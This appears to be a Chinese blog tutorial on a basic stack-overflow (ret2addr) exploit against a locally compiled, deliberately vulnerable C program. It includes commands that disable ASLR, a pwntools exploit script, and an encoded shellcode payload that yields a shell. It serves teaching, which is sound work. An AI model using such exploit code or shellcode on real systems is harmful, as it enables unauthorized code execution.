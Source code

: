 ```yaml
---
title:  Pwn 入门（ret2addr)
permalink: pwn-ret2addr
date: 2019-09-15 11:20:45
tag: 
 - blog
 - Pwn
 - 网安
categories:
 - 网安
 - Note
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 

  ```bash
  ulimit -c unlimited
  sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
  ```

- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。

- 用 `gdb 程序名称 core`打开 core 文件。

- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。

  ```sh
  gdb-peda$ print $esp
  0xffffcf80
  ```

- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

shellcode 可以在 [shell-strom](http://shell-storm.org/shellcode/) 这里找到很多，也可以自己手写。

```python
from pwn import *
#context.log_level='debug'
p=process("./vuln") # 此处是程序的路径
payload='a'*92	# 此处的92是第一步所确定的无效字符串的长度
payload+=p32(0xffffcf80) #此处的地址是第二步时获得的 shellcode 地址
#shellcode脚本
payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）